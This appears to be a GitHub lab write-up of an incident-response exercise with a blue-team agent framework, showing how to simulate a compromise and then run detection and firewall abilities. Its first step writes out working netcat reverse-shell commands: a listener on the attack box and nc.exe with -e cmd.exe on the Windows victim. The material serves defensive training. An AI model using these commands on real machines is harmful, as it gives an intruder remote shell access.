 ### Incident Response Scenario

Simulate a simple Incident Response scenario to trigger some of the abilities included in the **Incident Responder** profile. 

**First**: Establish a reverse shell from our victim machine to our AttackBox instance.

Attack Machine

```bash
nc -lvp 4444 -s $(hostname -I | awk '{print $1}')
```

Victim Machine

```powershell
PS C:\Tools> .\nc.exe 10.10.39.5 4444 -e cmd.exe
```

<img width="1591" height="530" alt="image" src="https://github.com/user-attachments/assets/f9c7ef33-d416-4881-b800-8fc3c07e05e7" />

Now, let's execute the response operation and observe the behaviour 

### Running Blue operation

**Second**: deploy a new blue agent

<img width="1062" height="491" alt="image" src="https://github.com/user-attachments/assets/7c3ee502-02b5-4616-9740-88206b121734" />

Choose the blue-team agent reverse shell

<img width="1071" height="510" alt="image" src="https://github.com/user-attachments/assets/76cdcefe-3f79-4a5a-9677-895a04b5bfe7" />

Execute it on the victim machine.

<img width="996" height="293" alt="image" src="https://github.com/user-attachments/assets/8b8ff126-e950-4161-9919-61174369fe71" />

The Agent is now active

<img width="1401" height="453" alt="image" src="https://github.com/user-attachments/assets/c9057bce-90a3-4dab-935c-2640576353de" />

**Third**: Create a new blue operation

<img width="728" height="690" alt="image" src="https://github.com/user-attachments/assets/37f48fd1-02f7-42ac-954e-85c508813303" />

Start the operation.

<img width="1744" height="799" alt="image" src="https://github.com/user-attachments/assets/5ea666b3-2a27-4e94-a3e1-eb2d1c59adb7" />

The output of `Find unauthorized processes` ****ability

<img width="1111" height="220" alt="image" src="https://github.com/user-attachments/assets/17f3f504-a780-4a04-96a9-3a9975f2a6a3" />

<img width="1108" height="596" alt="image" src="https://github.com/user-attachments/assets/43afb145-7994-440e-8e34-b5ae78fb120c" />

the output of `Enable Outbound TCP/UDP firewall rule` ability

